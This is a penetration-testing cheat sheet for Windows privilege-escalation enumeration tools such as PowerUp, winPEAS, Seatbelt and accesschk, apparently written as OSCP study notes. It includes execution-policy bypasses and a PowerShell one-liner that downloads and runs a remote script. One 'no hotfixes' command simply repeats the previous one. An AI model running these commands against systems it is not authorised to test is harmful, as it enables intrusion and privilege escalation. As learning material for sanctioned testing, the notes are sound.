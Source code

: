 ```yaml
---
title: "Automated Exploitation"
permalink: /notes/windowsautoexploit/
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - linux
  - privesc
  - privilege escalation
  - privilege
  - escalation
  - automated
toc: true
hide_title: true
excerpt: ""
---
```


## Running Scripts

Transfer files using `certutil`, `powershell`, `python -m http.server`, etc., and execute them in writable directories like:

```
C:\Temp
C:\Users\Public
```

## Recommended and Verified Tools

### Windows Exploit Suggester (WES)

Identifies missing patches and correlates with public exploits and Metasploit modules.

**Setup and Usage:**

```
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester
python windows-exploit-suggester.py --update
```

**On the target machine:**

```
systeminfo > sysinfo.txt
```

**Run analysis:**

```
python windows-exploit-suggester.py --database 2018-02-08-mssb.xls --systeminfo sysinfo.txt
```

**If `systeminfo` doesn’t show hotfixes:**

```
python windows-exploit-suggester.py --database 2018-02-08-mssb.xls --systeminfo sysinfo.txt
```

### PowerUp.ps1

Detects common privilege escalation misconfigurations via PowerShell.

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1
```

**Run manually:**

```
powershell -exec bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

**Or remotely:**

```
powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://your-site.com/PowerUp.ps1'); Invoke-AllChecks"
```

### SharpUp.exe (if PowerShell is restricted)

- Code: [https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)
- Binary: [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe)

**Run:**

```
.\SharpUp.exe
```
### Seatbelt.exe

Collects extensive system information for post-exploitation or privilege escalation checks.

- Code: [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)
- Binary: [https://github.com/r3motecontrol/Ghostpa-CompiledBinaries/blob/master/Seatbelt.exe](https://github.com/r3motecontrol/Ghostpa-CompiledBinaries/blob/master/Seatbelt.exe)

**Usage:**

```
.\Seatbelt.exe all
.\Seatbelt.exe <check> <check>
```
### winPEASany.exe

Powerful enumeration tool with clear visual output.

- Repo: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

**Enable colors in terminal:**

```
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

**Run checks:**

```
.\winPEASany.exe quiet cmd fast
.\winPEASany.exe quiet cmd systeminfo
```
### accesschk.exe

Checks user access rights on files, directories, services, registry keys.

- Download: [https://xor.cat/assets/other/Accesschk.zip](https://xor.cat/assets/other/Accesschk.zip)

**Accept EULA (only required once):**

```
accesschk.exe /accepteula
```

**Scan weak file permissions:**

```
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

**Scan weak folder permissions:**

```
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\
```
### PrivescCheck.ps1

Scans for exploitable misconfigurations and collects useful system data.

**From `cmd`:**

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

**From PowerShell:**

```
Set-ExecutionPolicy Bypass -Scope process -Force
. .\PrivescCheck.ps1; Invoke-PrivescCheck
```

**Extended mode:**

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended"
```
## Remember

- Start with non-invasive enumeration.
- Avoid running auto-exploits in exam or production environments.
- Save all output to `.txt` files for review and reporting.